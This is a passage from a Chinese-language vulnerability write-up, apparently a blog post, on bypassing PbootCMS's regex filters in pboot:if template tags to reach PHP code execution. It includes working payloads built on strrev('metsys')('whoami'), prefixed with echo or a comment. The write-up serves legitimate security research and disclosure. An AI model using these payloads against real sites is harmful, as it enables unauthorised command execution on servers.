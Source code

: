 [![](https://p0.ssl.qhimg.com/t0174f5119cb7db8746.png)](https://p0.ssl.qhimg.com/t0174f5119cb7db8746.png)

这里猜想开发者是想禁止if标签中条件代码段中的小括号存在内容，但是经过测试xxx(“xxx”)这样的形式可以无视正则并不影响我们的代码执行，现在假如我们可以直接编辑模版，以执行system函数为目标，来研究一下如何执行代码；

为了绕过system的正则校验，可以使用如下方式绕过

```
strrev('metsys')('whoami');
```

那么很容易想到使用如下payload测试

```
`{`pboot:if(1) strrev('metsys')('whoami');//)`}`y7m01i`{`/pboot:if`}`
```

测试之后会发现并不能执行，因为无法绕过第二条正则，我们可以通过简单的输出来打印下程序在进行安全校验的情况

[![](https://p1.ssl.qhimg.com/t011a8042710ea1c5ea.png)](https://p1.ssl.qhimg.com/t011a8042710ea1c5ea.png)

[![](https://p1.ssl.qhimg.com/t01ec0be99ef85e0713.png)](https://p1.ssl.qhimg.com/t01ec0be99ef85e0713.png)

可以看到在这里较验到了strrev是一个已定义的函数，所以语句被拦截，接着我们来尝试在strrev前面加上一些字符查看一下情况

```
`{`pboot:if(1) xxx strrev('metsys')('whoami');//)`}`y7m01i`{`/pboot:if`}`
```

[![](https://p0.ssl.qhimg.com/t01dd385fe61861b25a.png)](https://p0.ssl.qhimg.com/t01dd385fe61861b25a.png)

可以看到出现了eval执行错误的信息，这说明我们成功绕过了校验，eval执行了我们输入的内容，只不过当前内容执行时报出了错误，那么接下来的目标就很明确了，我们需要寻找一个可以代替xxx的内容，使eval执行不会报错；经过搜索我发现了这样一条内容

[![](https://p2.ssl.qhimg.com/t0189046feb9c614362.png)](https://p2.ssl.qhimg.com/t0189046feb9c614362.png)

简单来测试一下

[![](https://p3.ssl.qhimg.com/t01236c79f0ca7ef7b7.png)](https://p3.ssl.qhimg.com/t01236c79f0ca7ef7b7.png)

果然符合我们的要求，尝试如下payload

```
`{`pboot:if(1) echo strrev('metsys')('whoami');//)`}`y7m01i`{`/pboot:if`}`
```

[![](https://p0.ssl.qhimg.com/t01934ed84730065623.png)](https://p0.ssl.qhimg.com/t01934ed84730065623.png)

成功执行了system函数，后来经过思考和测试，其实使用注释也是可以的，如下

```
`{`pboot:if(1) /*y*/ strrev('metsys')('whoami');//)`}`y7m01i`{`/pboot:if`}`
```

但是光是这样执行命令是不够的，我们需要寻找到一处用户可控的点来解析if标签，在上面的参考文章中我们易得在前台搜索功能处可以解析我们输入的if标签，并且对于pboot[@if](https://github.com/if)的替换可以使用``{`pboot`{`user:password`}`:if`这样的形式绕过，但是在该版本中移除了decode_string函数，在标签解析时单双引号是编码过的，无法正常解析，然而从前面的分析知道我们目前的利用方式需要使用但双引号来绕过第二个正则的校验，所以目前为止在前台搜索处我们暂时是无法利用的，所以我们需要寻找一下是否存在其他的利用方式，与我们目前所掌握的条件配合来进行利用。
